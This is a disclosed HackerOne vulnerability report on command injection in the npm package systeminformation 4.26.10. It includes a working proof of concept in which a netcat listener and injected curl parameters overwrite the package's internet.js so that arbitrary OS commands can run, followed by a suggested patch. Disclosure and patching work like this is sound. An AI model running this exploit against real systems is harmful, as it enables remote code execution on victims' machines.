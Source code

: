 # [systeminformation] Command Injection via insecure command formatting

## Report Details
- **Report ID**: 925324
- **URL**: https://hackerone.com/reports/925324
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2020-07-16T14:34:16.895Z
- **Disclosed**: 2020-11-16T16:42:51.827Z

## Reporter
- **Username**: effectrenan
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report a Command Injection vulnerability in the `systeminformation` package. It allows an attacker to inject arbitrary OS commands.

# Module
**Module name:** systeminformation
**Version:** 4.26.10
**npm page:** `https://www.npmjs.com/package/systeminformation`

## Module Description

System and OS information library for node.js.

## Module Stats

Weekly downloads: 363.195

# Vulnerability

## Vulnerability Description

The attacker can concatenate `curl` parameters to overwrite a Javascript file of the package and then execute any OS commands.

The `child_process.exec()` function executes the following command:
```bash
curl -I --connect-timeout 5 -m 5 $urlSanitized 2>/dev/null | head -n 1 | cut -d " " -f2 # $urlSanitized is the user input
```

## Steps To Reproduce:

Create a Javascript file with content:
```javascript
const { exec } = require('child_process')
function inetChecksite(url) {
  return exec(url)
}
exports.inetChecksite = inetChecksite
```

We can use Netcat to create a TCP server to send back our Javascript file created before on 443 port:
```bash
sudo nc -nlp 443 < file.js
```

Execute the code bellow to overwrite the Javascript file:
```javascript
const si = require('systeminformation')
const HOST = "127.0.0.1:443"

//The telnet was chosen to solve an issue with the protocol response check, like HTTP (HTTP/1.0 200 OK in the first line).
si.inetChecksite(`telnet://${HOST} --no-buffer -o node_modules/systeminformation/lib/internet.js`)

setTimeout(() => {
  process.exit()
}, 2000)
```

Now we can execute OS commands:
```javascript
const si = require('systeminformation')
si.inetChecksite("<Some OS command>")
```

## Patch

Replace:
```javascript
const exec = require('child_process').exec
```
To:
```javascript
const { spawn } = require('child_process')
```

## Supporting Material/References:

- ArchLinux 5.4.50 x64
- NODEJS 14.5.0
- NPM 6.14.5

# Wrap up

- I contacted the maintainer to let them know: [N] 
- I opened an issue in the related repository: [N]

## Impact

An attacker can execute arbitrary OS  commands on the victim's machine.

## Attachments
No attachments

